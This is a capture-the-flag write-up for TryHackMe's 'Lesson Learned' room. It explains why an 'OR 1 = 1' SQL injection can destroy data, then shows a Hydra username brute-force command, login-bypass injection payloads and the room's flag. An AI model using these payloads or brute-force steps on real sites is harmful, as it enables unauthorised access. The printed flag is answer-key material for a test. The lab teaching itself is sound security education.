 # Lesson Learned?

![Lesson Learned?](./Assets/lesson-learned.png "Lesson Learned Room Avatar")

## Summary

[Lesson Learned](https://tryhackme.com/room/lessonlearned "Lesson Learned CTF on TryHackMe") is a beginner-friendly CTF hosted on [TryHackMe](https://tryhackme.com/ "TryHackMe Website") and created by [Tib3rius](https://tryhackme.com/p/Tib3rius "TryHackMe user profile for Tib3rius").

This CTF requires basic knowledge of:

* Safer alternatives to common ```SQL Injections```.

* Bruteforcing usernames with tools like ```Hydra```.

---

## Contents

* [Getting Started](#getting-started "Jump To Section")

* [Getting Kicked Out](#getting-kicked-out "Jump To Section")

* [The Right Way](#the-right-way "Jump To Section")

---

## Getting Started

For this room we're given the following description:

> This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.
>
> Treat this box as if it were a real target and not a CTF.
>
> Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

The above description let's us know that this CTF will be a straight-forward login page bypass. There will be no need for a network scan or directory enumeration, so we can skip the usual tools like NMAP and GoBuster and move straight to website.

[Back To Top](#lesson-learned "Jump To Top")

---

## Getting Kicked Out

Once we navigate to the URL for the website we'll see a simple login page. Reviewing the source code reveals nothing, just bare-bones HTML and CSS.

Our first instinct may be to perform a ```SQL Injection``` like ```admin' OR 1 = 1-- -```, but when thinking of performing a SQL Injection it is important to consider the context into which the injection is being placed. Is it a ```SELECT``` statement or a ```UPDATE``` statement? Into which part of the SQL query are we injecting into? Here we can guess that we're injecting into a ```SELECT``` query based on the fact that the login form will query the SQL database for our username. However, we don't know _exactly_ what the program does with our input, we can only guess. Say, for instance, that we wanted to inject ```admin' OR 1 = 1-- -``` into a ```SELECT``` statement. This would return every row. However, if the same injection is inserted into a ```DELETE``` statement, every row would be deleted. This is what makes SQL injections so dangerous.

We can test out the wrong way to inject into the database with the following injection:

* Username: ```test' OR 1 = 1-- -``` (MySQL comments need to start with a space so the dash following the space is used to ensure that the space before is not stripped, you can use anything though. For instance, ```test' OR 1 = 1-- x```, is also a valid injection.)

* Password: ```anything```

After our SQL injection, we'll get the following message:

![CTF Error Message](./Assets/error-message.png "CTF Error Message")

The flag has been destroyed due to our injection making it's way to a ```DELETE``` statement. We'll need to restart the room and try a "less destructive" method.

[Back To Top](#lesson-learned "Jump To Top")

---

## The Right Way

![Tweet from Tib3rius on safer alternatives to 1 = 1 injection](./Assets/tib3rius-tweet-on-sql-injection.png "Tweet from Tib3rius on safer alternatives to 1 = 1 injection")

Instead of trying to return every row with ```test' OR 1 = 1-- -``` and hoping we're logged into the account of the user in the first row we can use a SQL injection like ```test'; -- -``` or ```test' AND 1 = 1 -- -```. The problem with this safer alternative is that we need a valid username. So our next step is to enumerate possible usernames using a tool like [Hydra](https://www.kali.org/tools/hydra/ "Kali Linux Documentation For Hydra").

Before we can craft the Hydra command we'll need the following:

* [Username Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt "Daniel Miessler's Usernames Wordlist On GitHub")

* Name of the page the form is submitted to.

* Form method.

* Input names for username/password.

* Error message that appears when a username AND password are incorrect.

All of these, with the exception of the wordlist and error message, can be found by viewing the forms source code.

```html
<div id="login">
    <h1>Login</h1>
    <form action="/" method="POST">
        <label for="username">Username</label>
        <input id="username" type="text" name="username">
        <label for="password">Password</label>
        <input id="password" type="password" name="password">
        <input type="submit" value="Login">
    </form>
</div>
```

* Form Submission Page - ```/``` (Or ```index.php```).

* Method - ```POST```.

* Input Names - Password: ```password```, Username: ```username```.

Now we can grab the error message by attempting to log in with dummy credentials such as ```test:test```.

*  Error Message - ```Invalid username and password.```

Now that we have everything we can craft the Hydra command.

```hydra -L /path/to/wordlist -p INSERT_ANY_PASSWORD_HERE INSERT_IP_ADDRESS_HERE -s 80 http-post-form "/index.php:username=^USER^&password=^PASS^":"Invalid username and password."```

After Hydra has finished running we should get the following valid usernames:

* ```arnold```

* ```karen```

* ```kelly```

* ```marcus```

* ```martin```

* ```naomi```

* ```patrick```

* ```sophia```

* ```stuart```

* ```veronica```

Now that we have valid usernames we can bypass the login with either of the following payloads:

* ```veronica' AND 1 = 1-- -```

* ```karen';-- -```

And for some reason this also logs us in (with *ANY* username):

* ```test' UNION SELECT null-- -```

After bypassing the login page we'll be greeted with the following flag and message:

```THM{aab02c6b76bb752456a54c80c2d6fb1e}```

![Success Page](./Assets/success.png "Success Page")

[Back To Top](#lesson-learned "Jump To Top")
